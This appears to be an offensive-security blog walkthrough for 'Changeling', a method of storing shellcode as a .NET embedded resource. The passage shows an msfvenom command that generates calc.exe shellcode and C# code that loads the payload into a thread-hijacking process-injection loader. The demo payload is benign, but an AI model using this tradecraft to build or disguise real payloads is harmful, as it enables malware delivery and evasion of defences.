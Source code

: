 In .NET projects, files can be added with specific build actions. One build action that you may be familiar with without even knowing it is the `Compile` action. A file's build action can be seen by selecting the file in the Solution Explorer, and then viewing the build action in the Properties window. In this case, we are interested in the `Embedded Resource` build action. This is what Microsoft has to say about marking a file with this action:

> The file is passed to the compiler as a resource to be embedded in the assembly. You can call System.Reflection.Assembly.GetManifestResourceStream to read the file from the assembly.

Perfect. So, according to this we can mark a file to be embedded into the assembly, and then use the Assembly class to read the resource back out. This sounds ideal for modifying something like shellcode in a payload. There were a few projects out there that touched on embedded resources, but none that I found people using in the offensive space. So, I decided to create Changeling, and here's how you can use it with your own payloads.  


## A Sample C# Project

For this walkthrough, we will create a simple shellcode executor that pops calc on a 64-bit Windows machine. For the C# portion, we'll be using the Process Injection (T1055) technique created by [@pwndizzle](https://twitter.com/pwndizzle) that can be found [here](https://github.com/pwndizzle/c-sharp-memory-injection/blob/master/thread-hijack.cs).

To start off, we'll create a new C# `Console App (.NET Framework)` project in Visual Studio with the above file as our source, and we'll call the project `ShellcodeLoader`.  We will also need shellcode to inject. We can get this from metasploit with:

```
+[root@coffee-kali: changeling]$ msfvenom --payload windows/x64/exec CMD=calc.exe -a x64 --platform windows -f raw -o calc.bin
No encoder or badchars specified, outputting raw payload
Payload size: 276 bytes
Saved as: calc.bin
```

Now that we have our shellcode, we include it in our project as an embedded resource by selecting `Project -> Existing Item` from the Visual Studio menu, and selecting our freshly created `calc.bin`. Now, we'll make sure we have the Solutions Explorer (`View -> Solutions Explorer`) and the Properties Window (`View -> Properties Window`) open in Visual Studio. When we select `calc.bin` in the solutions explorer, we are shown several properties of the file in the properties window. We'll set the Build Action property to Embedded Resource, as described earlier.

{% include figure image_path="/assets/images/2020-03-27-changeling-a-feature-morphing-creature/calc-bin-properties.png" width='30' %}

Now, we need code to read our embedded resource out. To do this, we simply replace the following line in pwndizzle's code:

_**original**_
```csharp
byte[] payload = new byte[112] {
    0x50,0x51,0x52,0x53,...
};
```

_**changeling-ready**_
```csharp
using System.Linq;

/* <snip> */

byte[] payload;
string resourceName = "calc.bin";

var assembly = System.Reflection.Assembly.GetExecutingAssembly();
resourceName = assembly.GetManifestResourceNames()
    .Single(str => str.EndsWith(resourceName));

using (System.IO.Stream stream = assembly.GetManifestResourceStream(resourceName))
```